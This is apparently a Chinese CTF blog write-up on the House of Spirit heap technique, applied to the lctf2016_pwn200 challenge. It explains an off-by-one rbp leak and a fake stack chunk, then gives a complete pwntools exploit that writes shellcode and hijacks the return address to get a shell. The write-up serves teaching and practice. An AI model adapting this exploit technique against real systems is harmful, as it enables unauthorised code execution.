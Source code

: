 ```yaml
---
title: 「PWN」House_of_Spirit
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


看看`House_of_spirit`，这是一种依靠在栈上构造`fake_chunk`从而实现`(almost) arbitrary write`的技术。依赖`fastbin`

<!--truncate-->

# how2heap

整体还是比较简单的，需要注意的就是需要`16字节对齐`，且需要构造`next_fake_chunk`的`chunk_size`以绕过检查

![image-20220719220643524](https://oss.nova.gal/img/image-20220719220643524.png)

![image-20220719220923354](https://oss.nova.gal/img/image-20220719220923354.png)

# 实战

## lctf2016_pwn200

![checksec](https://oss.nova.gal/img/image-20220719235857110.png)

保护啥也没开，想着就是直接`ret2shellcode`梭哈，但是没有那么多字节给我们栈溢出。

![400A8E](https://oss.nova.gal/img/image-20220719235308594.png)

第一个`who are u?`的函数存在`Off-by-One`的漏洞，可以泄露出`400A8E`的`rbp`指向的内容（也就是父函数的`rbp`）

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://oss.nova.gal/img/image-20220719235609346.png)

函数`read_input()`返回了一个`int`，虽然`400A8E`没有使用，他也应该会存到栈上的某个位置，根据汇编得到其位于`[rbp-0x38]`的位置

![[rbp-0x38]](https://oss.nova.gal/img/image-20220720000140408.png)

在`400A29`中，可以看出`dest`是指针，`buf`存在`8`字节的溢出，正好可以覆盖`dest`，而`dest`会存到`ptr`中，供之后的`menu`里的功能来`free`和`malloc`等。

![400A29](https://oss.nova.gal/img/image-20220720000329530.png)

到此，我们可以初步猜想，可以在`buf`这里构造一个`fake_chunk`，然后把堆指针指向`buf`，这样我们就有了一个在栈上的`chunk`。问题是在`check_out`函数中，想要`free(ptr)`，我们必须依靠`House_of_spirit`伪造`fake_next_chunk_size`

根据计算，我们可以发现刚才的`id`正位于目前我们`buf+0x68`的位置，因此我们不妨造一个`0x50`大小的`chunk`，并把`id`设置成一个满足`house_of_spirit`的值。

![fake_next_chunk_size](https://oss.nova.gal/img/image-20220720001354338.png)

如此一来，当我们执行`free(ptr)`时，便会将这个栈上的地址存到`fastbin`中，此时我们重新`malloc(0x60)`，并写入对应的`payload`更改返回地址，便可以拿到`shell`了

通过观察，我们可以发现唯一可以控制的`ret_addr`是`ptr+0x40`的这个。返回地址可控了，丢到哪里呢？还记得我们一开始`who_r_u`的时候输入了`0x30`的数据么？我们完全可以把`shellcode`写到这里。只要计算一下偏移就可以了。

![image-20220720002739429](https://oss.nova.gal/img/image-20220720002739429.png)

完整 EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

哈哈哥们出了个整不明白的 bug（`pwntools`接不到`Action`），后面再说吧，乐

![image-20220720204517147](https://oss.nova.gal/img/image-20220720204517147.png)
